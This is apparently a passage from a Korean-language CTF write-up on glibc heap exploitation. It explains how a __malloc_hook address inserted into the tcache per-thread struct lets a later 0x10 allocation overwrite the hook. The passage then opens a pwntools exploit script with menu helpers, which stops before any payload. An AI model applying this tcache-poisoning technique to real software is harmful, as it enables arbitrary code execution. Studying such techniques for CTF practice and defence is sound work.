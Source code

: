 ![./5.png](./5.png)

- tcache_perthread_struct 의 head 영역의 0x20 크기 부분에 __malloc_hook 주소 가 삽입되 었기 떄문에 tcachebins를 확인한 결과 0x20으로 할당된 것을 확인할 수 있다.
- 해당 상태에서 0x10 크기로 할당을 받게 된다면 __malloc_hook 영역에 할당하여 원하는 값으로 조작할 수 있다.

```cpp
from pwn import *

# malloc
def malloc(data):
    sla("Your choice: ", str(1))
    sla("How many: ", str(data))
# free
def free(ptr):
    sla("Your choice: ", str(2))
    sla("Whats in a free: ", str(ptr))

# Write
def write(data):
    sla("Your choice: ", str(3))
    sa("Read me in: ", str(data))
if __name__ == '__main__':        
    context.log_level = 'debug'
    # context.arch = 'amd64'

    LOCAL = 1
    DEBUG = 0

    s       = lambda data               :p.send(str(data))       
    sa      = lambda delim,data         :p.sendafter(str(delim), str(data)) 
    sl      = lambda data               :p.sendline(str(data)) 
    sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data)) 
    r       = lambda num=4096           :p.recv(num)
    rn      = lambda                    :p.recvline()
    ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
    irt     = lambda                    :p.interactive()

```